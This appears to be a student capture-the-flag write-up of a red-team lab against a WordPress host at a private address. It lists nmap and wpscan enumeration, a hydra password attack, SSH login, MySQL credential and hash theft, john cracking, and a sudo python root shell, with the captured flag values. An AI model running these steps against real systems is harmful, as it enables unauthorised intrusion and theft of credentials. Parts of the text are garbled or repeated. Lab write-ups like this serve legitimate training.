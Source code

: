 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

![nmapsvos](https://github.com/iastoneCO/Final-Project/blob/22e32e8015f891588285887560c5ead6927187f2/Images/nmap-sv-os-110.png)

Nmap scan results for each machine reveal the below services and OS details:  

$ nmap -sV -O 192.168.1.110 
-- (The -O detection the operating system, and -sV a detailed study of ports to determine the version of services.)
           
- Target 1  
       Open Ports:
    - Port 22 (SSH)
    - Port 80 (HTTP)
    - Port 111 (rpcbind)
    - Port 139 (netbis Samba)
    - Port 445 (netbis Samba)

### The following vulnerabilities were identified on each target:
     - Critical and Vulnerabilities

- Target 1
  - Run wpscan enumerate username for on the target1 system. 
  - wpscan ![wpscan-username](https://github.com/iastoneCO/Final-Project/blob/22e32e8015f891588285887560c5ead6927187f2/Images/wpscan-enumerate-usernames.png)

  - Run hydra and found michael's password. His      password is vulnerabilities. His password is incredibly weak same his username. 
  *** He would be a password with a minim of 8 characters, including uppercase, lowercase and special characters.

    ![michael-password](Images/michael-password.png)

   -- python  (user steven to run python with sudo.)
   -- Database mysql wp_config.php
   -- Access the mysql database use for the site, password hashes and other confidential information. 

CVE-2013-0235 | vulnerabilities - 
CVE-2013-0235 | vulnerabilities - [CVE-pages](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2013-0235/)


### Exploitation
would be a password with a minimum of 8 characters, including uppercase,  lowercase and special characters.
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
 
- Target 1 

  -----Flag1
    - **Exploit Used**

      * Commands run: 
         - ssh username michael with Password. 
         - Open Port is 22 and run ssh    michael@192.168.1.110
         - cd /var/www/html
         - grep -ER flag1  
         - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
         
      ![flag1](Images/grep-found-flag1.png)     

  -----Flag2 
   - **Exploit Used**
     - Commands run: 
          -  cd /var/www/
          - cat flag2.txt
          - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
 
      ![flag2](Images/cat-flag2.txt.png)

  -----Flag3
   - **Exploit Used**
     - Use the mysql database
       - Commands Run:
         - still on ssh michael@192.168.1.110 
         - cd /var/www/html/wp_config.php (Found to connect to the mysql database and got the password.)
        - Mysql 
         - looked - show database, use wordpress, show tables, desc wp_posts
         - mysql - select post_title, post_content from wp_posts where post_title like "flag%"; 
         - found flag3 and flag4
         - flag3{afc01ab56b50591e7dccf93122770cd2}
         - found wp_users michael and steven included hash.

      ![flag3](Images/flag3-from-wp_posts.png)


      ![hash](Images/show-select-wp_users_hash-wordpress.png)  


  -----Flag4
   - **Exploit Used**
      - Commands run: python with sudo.
        - Copied/Pasted hash the wp_hash.txt
        - run john /root/Document/wp_hash.txt
        -Allow me to use python sudo to execute a shell program to access the root steven's account. 
        - cd /root directory and found flag4.txt
        - sudo python -c 'import pty;pty.spawn("bin/bash");' 
        - cat flag4.txt
        flag4{715dea6c055b9fe3337544932f2941ce}

    ![tables-wp_posts](Images/raven-steven-found-cat-flag4-file.png)  
